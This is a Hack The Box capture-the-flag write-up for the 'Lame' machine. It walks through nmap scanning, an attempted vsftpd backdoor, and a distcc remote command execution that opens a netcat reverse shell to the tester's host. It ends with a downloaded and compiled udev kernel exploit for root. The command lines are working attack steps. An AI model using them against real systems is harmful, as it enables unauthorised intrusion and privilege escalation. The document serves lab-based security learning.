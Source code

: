Hack The Box — Lame Writeup
==========================================

![Image of Lame](https://github.com/s-farhat/HTB-WriteUps/blob/master/images/Lame.png)

**Personal review**: This Machine took me about three (3) hours to gain root privilege. It was pretty easy however, as I'm trying to avoid working w/o Metasploit and, as the version of Linux deployed on this box contains many vulnerabilities, it was pretty challenging.


### 1. Reconnaissance
First of all, i run a quick nmap scan to figure out which ports are opened and also the service running behind those ports.<br>
```
nmap -sC -sV -O 10.10.10.3 > Quick-scan-Lame.nmap
```
The output of the last command showed the open ports listed below:
* 21/tcp : vsftpd 2.3.4
* 22/tcp : OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
* 139/tcp & 445/tcp : netbios-ssn Samba smbd 3.X - 4.X 

Before working on those results, i run a full nmap scan in order to make sure that i didn't miss any other opened ports. <br>
```
nmap -sC -sV -O -p- 10.10.10.3 > Full-scan-Lame.nmap
```
This full scan reported a new open port:
* 3632/tcp : distccd v1


### 2. Enumeration:
After getting the result of the quick scan, i immidiately start the enumeration phase.
First of all i tried to login with Anonymous:<blank password>. This vulnerability was present, but unfortunately, the directory is empty.<br>
Always on the port 21, i notice that the service running is vsftpd 2.3.4 . I already know that this version is vulnerable and the first idea that come to my mind is to launch the command below:
```
searchsploit vsftpd 2.3.4
```
```
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Execut | exploits/unix/remote/17491.rb
--------------------------------------- ----------------------------------------
```
The result showed that only a metasploit module is found. Then, with a simple google search i was able to find a [Python script](https://github.com/s-farhat/HTB-WriteUps/blob/master/scripts/Lame/exploit.py) which serve to exploit this vulnerability. After cloning it and reviewing the content, i decided to execute it in order to get my first shell.
<br>Unfortunately, the script returned `[!] Failed to connect to backdoor`, so i realized that the service isn't vulnerable to **[CVE-2011-2523](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523)**


Before moving on the next port, i got the result of my full scan command and i realized that the distcc service is running under the port 3632. I didn't know what this service represents and this was sufficient to catch my curiosity. <br>
I started with a simple google search to know more about this service and then I figured out that:
- Distcc is a tool for speeding up compilation of source code by using distributed computing over a computer network. 

This was pretty interesting for me and i decided to focus on this service. The next step was to search if there is a known vulnerability to exploit this service.<br>
The `searchsploit` command returned only one result which is a metasploit module so I had to search for another solution.<br>
After a while, i realized that there is a nmap script which serve to exploit this service.<br>
At first, i tried to understand what the script exactly does and then i launched the command below:
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
And finally, the result confirmed that this service is vulnerable.
```
PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
```
In order to get a reverse shell, i started the command below:
```
nc -nlvp 4444
```
and in another terminal i executed the command below:
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc 10.10.14.24 4444 -e /bin/bash'"
```

And **finally**, i got the reverse shell with `daemon` privilege and after performing `ls -la` on the user's home directory, i realized that I'm able to read the user.txt file.
```
-rw-r--r-- 1 makis makis 33 Mar 14  2017 /home/makis/user.txt
```
### 3. Privilege Escalation:

As this box is rated Low. The first thing that i have done is to check the Kernel Version and it is `Linux 2.6.24`.
I realized that this version is an old one and contains many vulnerabilities. I focused on this vector to gain root privilege.<br>
After unsuccessful tries, I put my hands on the [Cve-2009-1185](https://www.exploit-db.com/exploits/8572) then i understood what it do exactly and then tried to give a try.
At first, I launched a Simple HTTP Server using python over port 80 using the command below:
```
python -m SimpleHTTPServer 80
```
Then from the reverse shell, I downloaded [the exploit](https://github.com/s-farhat/HTB-WriteUps/blob/master/scripts/Lame/8572.c) and then compiled it with gcc
```
wget http://10.10.14.24/8572.c
gcc 8572.c -o exploit
```
As mentioned in the description of the exploit, i should to look after the pid of the **udevd netlink socket**, inject a payload into **/tmp/run**, start listening on a specific port to intercept the reverse shell and start the exploit . Here's below the commands that i performed:
```
ps -aux | grep udevd
```
```
root      2688  0.0  0.1   2216   644 ?        S<s  Apr26   0:00 /sbin/udevd --daemon
```
PS : With this first command i deduct that the number that we have to pass as an argument for the exploit is (2688 - 1 ) = **2687**

```
wget http://10.10.14.24/payload | mv payload /tmp/run
```
And on another terminal i launched this command below to start listening on a specific tcp port:

```
nc -nlvp 4445
```
And Finaly, I executed the payload with this command below:
```
./exploit 2687
```

**Box Rooted !!!**

